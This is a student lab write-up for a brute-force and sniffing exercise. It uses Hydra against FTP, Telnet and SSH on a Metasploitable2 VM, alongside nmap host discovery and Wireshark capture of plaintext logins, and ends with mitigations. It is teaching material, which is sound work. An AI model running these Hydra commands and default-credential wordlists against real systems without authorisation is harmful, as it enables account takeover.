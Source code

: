 
# 💻 Labwork 1: Brute Force and Sniffing

## 📚 Table of Contents
1. [🎯 Objectives](#-objectives)  
2. [🧰 Setup](#-setup)  
3. [📍 Target IP Enumeration](#-target-ip-enumeration)  
4. [🥖 Brute Force Attacks](#-2-brute-force-attacks)  
5. [🍖 Sniffing Network Traffic](#-3-sniffing-network-traffic)  
6. [🍕 Problems Encountered](#-4problems-encountered)  
7. [🍥 Mitigation Strategies](#-5mitigation-strategies)  
8. [✅ Summary](#-summary)  

## 🎯 Objectives

- Understand how brute-force attacks work on common network services (FTP, Telnet, SSH).
- Practice using tools like Hydra for password attacks.
- Learn how to use Wireshark to analyze network traffic.
- Identify insecure protocols that transmit data in plaintext.
- Propose secure alternatives and mitigation strategies.

## 🧰 Setup

- **Hydra** – for performing brute force attacks  
- **Wireshark** – for capturing and analyzing network traffic  
- **Kali Linux** – attacker machine  
- **Metasploitable2** – vulnerable target VM  
- **FTP, Telnet, SSH** – services used for login and testing

## ⚠️ Reminder ⚠️
- Before starting, keep in mind that this project requires your own IP, Since all the IP address here are my own



## 📍 Target IP Enumeration

On **Kali Linux**, find the Metasploitable2 IP using:

```bash
netdiscover
```
or:
```bash
nmap -sn 192.168.154.0/24
```

Alternatively, get IP directly from **Metasploitable2**:

```bash
ifconfig
```

## 1. Enumeration of Usernames 🥐

Prepare the username and password lists manually:

```bash
vim usernames.txt
```

Contents:
```
msfadmin
user
admin
root
test
guest
```

```bash
vim passwords.txt
```

Contents:
```
msfadmin
user
admin
root
test
guest
```

## 2. Brute Force Attacks 🥖

### 🔐 FTP Attack

```bash
hydra -L usernames.txt -P passwords.txt ftp://192.168.154.133
```

### 🔐 Telnet Attack

```bash
hydra -l msfadmin -P passwords.txt telnet://192.168.154.133
```

### 🔐 SSH Attack

```bash
hydra -L usernames.txt -P passwords.txt ssh://192.168.154.133
```

> ❌ **Note**: Hydra/SSH client couldn’t connect due to outdated key exchange algorithms on Metasploitable2.

## 3. Sniffing Network Traffic 🍖

### 📡 3.1 Start Wireshark on Kali

- Open Wireshark  
- Select your network interface (e.g., `eth0`, `ens33`)  
- Click "Start Capture"

### 📂 3.2 FTP Login Traffic

Login with:
```bash
ftp 192.168.154.133
```

Then enter:
```
Username: msfadmin  
Password: msfadmin
```

Wireshark filter:
```bash
ftp
```

### 📂 3.3 Telnet Login Traffic

Login with:
```bash
telnet 192.168.154.133
```

Credentials:
```
msfadmin / msfadmin
```

Wireshark filter:
```bash
telnet
```

## 4. Problems Encountered 🍕

| Protocol | Problem                                | Solution                       |
|----------|----------------------------------------|--------------------------------|
| FTP      | None                                   | N/A                            |
| Telnet   | Service was off initially              | Enabled it on Metasploitable2 |
| SSH      | Hydra failed due to key mismatch error | N/A                            |

## 5. Mitigation Strategies 🍥

| Protocol | Vulnerability                  | Secure Alternative | Why it’s Better                          |
|----------|-------------------------------|--------------------|------------------------------------------|
| FTP      | Sends credentials in plaintext | SFTP / FTPS        | Encrypts file transfer + credentials     |
| Telnet   | Plaintext communication        | SSH                | Encrypts entire session                  |
| SSH      | Brute-forceable                | Key-based login    | More secure than password-only logins   |

## ✅ Summary

> 🚨 **Key Takeaways:**
> - FTP and Telnet are insecure protocols — avoid using them.
> - Hydra can easily brute-force weak or default credentials.
> - SSH is secure, but still needs hardening (use keys, limit attempts).
> - Wireshark confirms whether your protocol is leaking info.
> - Always **replace plaintext protocols** with **encrypted ones** like SSH or FTPS.
> - Apply **strong authentication**, **firewalls**, and **monitoring** for better security.

